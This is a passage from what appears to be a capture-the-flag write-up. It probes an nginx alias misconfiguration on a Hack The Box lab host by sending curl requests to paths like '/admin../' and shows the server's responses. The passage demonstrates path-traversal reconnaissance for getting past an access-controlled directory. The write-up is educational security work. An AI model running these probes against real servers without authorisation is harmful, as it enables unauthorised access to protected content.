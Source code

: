 My request to `/admin.php` would then end up at `http://localhost:[port]/[path]/.php`, which explains why it’s behaving differently from the other proxied stuff.

To test this, I can look up a directory and see if there’s an `index.php` or `index.html`, but no luck:

```

oxdf@parrot$ curl -I http://10.10.10.249/admin../index.php
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Sat, 17 Jul 2021 19:19:51 GMT
Content-Type: text/html; charset=iso-8859-1
Connection: keep-alive
Vary: Accept-Encoding

oxdf@parrot$ curl -I http://10.10.10.249/admin../index.html
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Sat, 17 Jul 2021 19:19:58 GMT
Content-Type: text/html; charset=iso-8859-1
Connection: keep-alive
Vary: Accept-Encoding

```

Tricks to get back to `/admin` don’t help anything:

```

oxdf@parrot$ curl -I http://10.10.10.249/admin../admin
HTTP/1.1 401 Unauthorized
Server: nginx/1.14.2
Date: Sat, 17 Jul 2021 19:20:17 GMT
Content-Type: text/html; charset=iso-8859-1
Connection: keep-alive
WWW-Authenticate: Basic realm="Authentication Required"

```

I took a guess that perhaps I could access the pokatdex part of the site, if it were being served out of a folder named `pokatdex` in the same folder as the admin page, and it worked:

```

oxdf@parrot$ curl -I http://10.10.10.249/admin../pokatdex/
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 17 Jul 2021 19:20:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding

oxdf@parrot$ curl -I http://10.10.10.249/admin../pokatdex/contact.php
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 17 Jul 2021 19:20:32 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding

```

